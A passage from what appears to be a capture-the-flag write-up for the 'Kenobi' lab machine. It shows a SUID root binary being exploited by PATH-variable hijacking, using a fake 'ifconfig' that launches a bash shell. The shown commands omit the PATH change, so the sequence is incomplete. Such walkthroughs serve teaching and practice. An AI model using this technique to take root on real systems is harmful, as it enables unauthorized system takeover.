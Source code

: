 As seen in the picture, there is a suid binary named `menu`. It's a specially written program. 

![Menu Program](/assets/img/posts/kenobi/menubin.png){: width="500"}
_Menu Program_

When we run the program, see that there is a few system options like ifconfig, kernel version. The binary is belong to root user and root group.

> strings /usr/bin/menu

![Strings command](/assets/img/posts/kenobi/commands.png)
_Readable strings_

If we check human readable strings that belong to menu binary via strings command, see that there are 3 system command. If we manipulate the binary we can gain root privileges. To do this we'll use path variable manipulation method. With this method, we can run system programs by changing our path variable and running the code pieces we have written as a system program.

```bash
echo $PATH
mkdir bin
cd bin
echo "/bin/bash" > ifconfig
chmod +x ifconfig
/usr/bin/menu 
```
